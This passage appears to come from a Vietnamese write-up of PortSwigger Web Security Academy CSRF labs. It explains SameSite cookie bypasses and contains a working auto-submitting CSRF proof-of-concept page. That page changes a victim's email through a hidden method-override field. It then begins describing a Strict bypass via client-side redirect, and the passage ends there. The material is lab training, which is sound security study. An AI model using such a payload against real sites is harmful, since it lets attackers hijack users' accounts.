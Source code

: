 - Như ta đã biết đối với `Lax` nó sẽ chỉ chấp nhận phương thức `get` và tôi đã thử nghiệm bằng cách ghi đè phương thức.

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ab500b003b59f80d0573bcd00620076.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="admin111&#64;gmail&#46;com" />
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

> ### **SameSite Strict bypass via client-side redirect**

- Đối với bài này đề ra đã sử dụng `samesite = strict`, vậy vấn đề ở đây là chúng ta làm sao để bypass qua samesite, `strict` đã ngăn chặn việc chúng ta bắt chéo trang gửi kèm cookie theo request.

- Tôi đã thử chức năng comment, khi tôi post comment thì sau khi post nó sẽ thực hiện js để quay lại script.

![](./img_csrf/csrf-7.png)

- Và tôi đã đi tìm hiểu về source js ấy.
